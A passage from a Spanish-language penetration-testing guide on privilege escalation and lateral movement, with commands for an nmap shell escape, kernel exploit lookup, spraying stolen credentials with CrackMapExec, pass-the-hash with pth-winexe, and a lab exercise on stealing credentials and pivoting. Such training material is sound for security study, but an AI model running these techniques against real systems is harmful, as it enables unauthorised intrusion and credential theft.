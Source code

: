 ```bash
nmap --interactive
nmap> !sh
```

### 8.4.4. Kernel Exploits

Usar **searchsploit** para encontrar exploits locales:

```bash
uname -a
searchsploit linux kernel 3.13
```

Compilar y ejecutar el exploit.

---

## 8.5. Escalada en entornos mixtos

### 8.5.1. Pivoting con credenciales

Usar **CrackMapExec** para probar credenciales robadas en toda la red:

```bash
crackmapexec smb 192.168.56.0/24 -u admin -p 'Password123!'
```

### 8.5.2. Pass-the-Hash

Con **pth-winexe**:

```bash
pth-winexe -U 'Administrator%aad3b435b51404eeaad3b435b51404ee:hash' //192.168.56.101 cmd
```

---

## 8.6. Creatividad en la Escalada

* **Abusar de software corporativo** que no valida entradas.
* **Ingeniería social interna** para obtener credenciales de administradores.
* **Encadenar vulnerabilidades menores** para lograr un compromiso mayor.

---

## 8.7. Ejercicio Práctico Completo

1. Comprometer un usuario básico en Windows y Linux.
2. Enumerar el sistema con `winpeas` o `linpeas`.
3. Detectar y explotar un servicio mal configurado.
4. Robar credenciales y pivotar a otro sistema.
5. Ejecutar escalada en el segundo sistema.

---
